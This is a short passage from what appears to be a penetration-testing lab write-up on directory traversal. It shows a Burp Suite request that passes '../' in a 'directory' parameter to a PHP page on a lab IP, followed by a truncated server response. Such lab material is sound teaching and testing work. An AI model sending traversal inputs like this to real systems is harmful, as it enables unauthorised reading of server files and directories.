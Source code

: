 ```http

</div>

[...]
```

![Lab - Directory Traversal](./assets/06_file_and_resource_attacks_lab_directory_traversal_2.png)

`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /directory_traversal_2.php?directory=../📌 HTTP/1.1
Host: 192.140.162.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=o78ej90h8cj91g69nkbm3km0l5; security_level=0
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Thu, 28 Nov 2024 17:10:00 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 14493
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html>
    
[...]

```
